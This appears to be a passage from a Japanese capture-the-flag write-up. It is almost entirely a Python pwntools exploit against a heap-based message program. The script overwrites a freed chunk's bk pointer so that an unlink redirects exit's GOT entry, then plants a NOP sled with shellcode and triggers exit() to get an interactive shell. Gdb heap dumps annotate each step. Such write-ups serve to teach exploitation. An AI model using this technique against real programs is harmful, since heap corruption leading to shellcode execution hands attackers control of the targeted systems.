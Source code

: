 ```python
def remove_message(i):
    choose_action('R')
    r.recvuntil('index : ')
    r.sendline(str(i))

def change_message(i, n, s):
    choose_action('C')
    r.recvuntil('index : ')
    r.sendline(str(i))
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def view_message(i):
    choose_action('V')
    r.recvuntil('index : ')
    r.sendline(str(i))
    return r.recvuntil('\n[L]eave')[:-len('\n[L]eave')]

def quit():
    choose_action('Q')

# add 1st message
leave_message(4, 'AAAA')

# gdb-peda$ x/50xg 0x603000 <- heap base
# 0x603000:	0x0000000000000018	0x0000000000603018
# 0x603010:	0x0000000000000000	0x0000000000000031 <- 1st chunk size
# 0x603020:	0x0000000000603048	0x0000000000603000 <- fd, bk
# 0x603030:	0x0000000041414141	0x0000000000000000
# 0x603040:	0x0000000000000000	0x00000000000003d0 <- 2nd chunk size
# 0x603050:	0x0000000000000000	0x0000000000603018 <- fd, bk
# 0x603060:	0x0000000000000000	0x0000000000000000

# resize 1st message and overwite 2nd chunk's bk
payload = ''
payload += 'A' * 0x18
payload += p64(0x3d0)               # size
payload += p64(0)                   # fd
payload += p64(addr_exit_got - 8)   # bk
change_message(0, len(payload), payload)

# add 2nd message
leave_message(4, 'AAAA')

# remove 2nd message
# now, addr_exit_got was overwitten to 3rd chunk's addr
remove_message(1)

# send shellcode
payload = ''
payload += '\x90' * 0x100
payload += shellcode
change_message(0, len(payload), payload)

# select undefined action to call exit()
choose_action('Z')

r.interactive()
```


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.